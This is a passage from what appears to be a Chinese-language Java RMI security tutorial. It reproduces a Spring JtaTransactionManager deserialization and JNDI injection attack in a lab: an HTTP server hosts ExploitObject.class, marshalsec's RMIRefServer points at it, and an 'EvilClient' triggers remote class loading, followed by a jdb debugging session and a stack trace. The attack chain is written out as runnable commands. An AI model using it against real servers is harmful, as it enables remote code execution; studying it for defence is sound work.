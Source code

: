         ExploitObject.class (参《Java RMI入门(3)》)

在testserverbase的父目录执行:

python3 -m http.server -b 192.168.65.23 8080

在test1目录执行:

rmiregistry \
-J-Djava.class.path="spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar" \
1099

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.65.23:8080/testserverbase/#ExploitObject 2099

java \
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true \
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true \
-cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar:spring-beans-4.2.4.RELEASE.jar:javax.transaction-api-1.2.jar:spring-context-4.2.4.RELEASE.jar:." \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeDynamicServer3 any

在test2目录执行:

java \
-cp ".:spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar" \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
EvilClientWithJtaTransactionManager any "msg from client" rmi://192.168.65.23:2099/whatever

15) 为什么Message3需要继承AbstractPlatformTransactionManager

调试SomeDynamicServer3:

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true \
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true \
-cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar:spring-beans-4.2.4.RELEASE.jar:javax.transaction-api-1.2.jar:spring-context-4.2.4.RELEASE.jar:." \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeDynamicServer3 any

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in org.springframework.transaction.support.AbstractPlatformTransactionManager.readObject

    org.springframework.transaction.jta.JtaTransactionManager(org.springframework.transaction.support.AbstractPlatformTransactionManager).readObject(java.io.ObjectInputStream) line: 1273
    sun.reflect.NativeMethodAccessorImpl.invoke0(java.lang.reflect.Method, java.lang.Object, java.lang.Object[]) line: not available [native method]
    sun.reflect.NativeMethodAccessorImpl.invoke(java.lang.Object, java.lang.Object[]) line: 62
    sun.reflect.DelegatingMethodAccessorImpl.invoke(java.lang.Object, java.lang.Object[]) line: 43
    java.lang.reflect.Method.invoke(java.lang.Object, java.lang.Object...) line: 498
    java.io.ObjectStreamClass.invokeReadObject(java.lang.Object, java.io.ObjectInputStream) line: 1170
    sun.rmi.transport.ConnectionInputStream(java.io.ObjectInputStream).readSerialData(java.lang.Object, java.io.ObjectStreamClass) line: 2177
    sun.rmi.transport.ConnectionInputStream(java.io.ObjectInputStream).readOrdinaryObject(boolean) line: 2068
    sun.rmi.transport.ConnectionInputStream(java.io.ObjectInputStream).readObject0(boolean) line: 1572
    sun.rmi.transport.ConnectionInputStream(java.io.ObjectInputStream).readObject() line: 430
    sun.rmi.server.UnicastRef.unmarshalValue(java.lang.Class<?>, java.io.ObjectInput) line: 322
    sun.rmi.server.UnicastServerRef.unmarshalParametersUnchecked(java.lang.reflect.Method, java.io.ObjectInput) line: 629
    sun.rmi.server.UnicastServerRef.unmarshalParameters(java.lang.Object, java.lang.reflect.Method, sun.rmi.server.MarshalInputStream) line: 617
    sun.rmi.server.UnicastServerRef.dispatch(java.rmi.Remote, java.rmi.server.RemoteCall) line: 338
    sun.rmi.transport.Transport$1.run() line: 200